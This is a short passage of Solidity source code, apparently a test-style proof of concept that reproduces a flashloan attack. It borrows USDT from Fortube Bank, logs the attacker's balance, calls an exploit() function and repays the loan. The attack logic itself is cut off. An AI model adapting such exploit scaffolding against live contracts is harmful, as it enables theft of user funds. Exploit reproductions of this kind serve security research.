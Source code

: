 │         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After Fortube Bank flashloan, USDT balance of attacker:",                                                                                                                                                                               │
│             usdtBalance,                                                                                                                                                                                                                             │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         // *Actual exploit*                                                                                                                                                                                                                          │
│         exploit();                                                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│         // Start repaying flashloans                                                                                                                                                                                                                 │
│         emit log_string("Repaying flashloans...");                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│         // Repay fortube flashloan                                                                                                                                                                                                                   │
│         uint256 usdtOwed = amount + fee;                                                                                                                                                                                                             │
│         IERC20(USDT).transfer(FortubeBank.controller(), usdtOwed);                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function exploit() public {                                                                                                                                                                                                                      │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │